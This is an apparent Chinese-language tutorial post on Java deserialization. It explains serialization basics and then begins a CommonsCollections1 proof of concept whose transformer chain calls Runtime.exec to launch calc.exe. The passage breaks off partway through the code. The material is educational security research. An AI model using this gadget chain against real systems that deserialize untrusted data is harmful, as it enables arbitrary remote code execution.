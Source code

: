
![image](https://raw.githubusercontent.com/lantern-lab/lantern-lab.github.io/master/null%E6%B0%B4%E4%B8%8B%E5%8F%AF%E7%88%B1%E5%8A%A8%E6%BC%AB%E5%A5%B3%E5%AD%A9%E6%A1%8C%E9%9D%A2%E5%A3%81%E7%BA%B8%E8%83%8C%E6%99%AF%E5%9B%BE_%E5%BD%BC%E5%B2%B8%E5%A3%81%E7%BA%B8-20241003233635-lo0zf5y.jpg)

# Java反序列化

## 什么是序列化和反序列化

如果我们需要持久化 Java 对象比如将 Java 对象保存在文件中，或者在网络传输 Java 对象，这些场景都需要用到序列化。

* **序列化**：将数据结构或对象转换成二进制字节流的过程
* **反序列化**：将在序列化过程中所生成的二进制字节流转换成数据结构或者对象的过程

下面是序列化和反序列化常见应用场景：

* 对象在进行网络传输（比如远程方法调用 RPC 的时候）之前需要先被序列化，接收到序列化的对象之后需要再进行反序列化；
* 将对象存储到文件之前需要进行序列化，将对象从文件中读取出来需要进行反序列化；
* 将对象存储到数据库（如 Redis）之前需要用到序列化，将对象从缓存数据库中读取出来需要反序列化；
* 将对象存储到内存之前需要进行序列化，从内存中读取出来之后需要进行反序列化。

综上：**序列化的主要目的是通过网络传输对象或者说是将对象存储到文件系统、数据库、内存中。**

​![image](https://raw.githubusercontent.com/lantern-lab/lantern-lab.github.io/master/nullimage-20240915163123-109rbae.png)​

## CommonsCollections1

### 版本适用范围

Commons-Collections 3.1-3.2.1

Java JDK < 8u71

### TransformerMap链

#### PoC展示

这是一段PoC，运行后会弹出一个计算器。

```java
package org.example.cc;

import org.apache.commons.collections.*;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollections1 {

    public static void main(String[] args) throws Exception {
        //此处构建了一个transformers的数组，在其中构建了任意函数执行的核心代码
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})
        };

```